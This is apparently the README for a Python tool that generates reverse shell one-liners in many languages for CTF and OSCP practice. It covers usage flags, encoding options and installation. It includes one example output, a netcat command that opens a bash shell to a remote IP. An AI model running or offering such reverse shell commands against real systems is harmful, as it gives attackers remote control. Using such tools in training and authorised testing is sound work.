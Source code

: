 # RevShells


RevShell is a Python-based tool that was built to have a variety of shells all in one place. This project was created to be used in CTFs and OSCP in mind. This tool allows users to choose from a list of reverse shells such as bash, netcat, ncat, lua, powershell, ruby, perl, java, and python. RevShells can encode with URL and Base64 encoding.

## Usage
  `python3 revshells.py -h`  
  will open a help menu, which will show you the needed syntax.

  ex:
      `python3 revshells.py -l or python3 revshells.py --list`  
  will give you a list of the shells that are available at the moment.   
        Once you see a shell you want, use -t or --type and the shell name to invoke it.
  
  `python3 revshells.py -i 1.1.1.1 -p 443 -t netcat`  
    output: `nc -e /bin/bash 1.1.1.1 443`

 `--encode or -e` is entirely optional.  
 Your revshell will look like the above output if you do not use it.  
 URL encoding and base64 encoding were kept in mind and have been tested.
  
## Commands
    options:
    -h or --help: Display available commands and their functionalities.
    options:
    -i or --ip: your IP address
    -p or --port: your port 
    -t or --type: Shell type to generate
    -l or --list: List all available shell types
    -a or --all: Generate all shell types
    -e or  --encode: Encode payload (base64 or url) this one is optional.
                        


Installation Instructions

To use the RevShell tool, follow these steps:  
Clone the Repository:

    git clone https://github.com/DelaDirty/RevShells.git  

Navigate to the Directory:

    cd RevShells



# Disclaimer
This tool is intended for educational and testing purposes only. Misuse of this tool for unauthorized access to systems or networks is strictly prohibited. The developers of this tool are not responsible for any illegal or unethical use of the tool






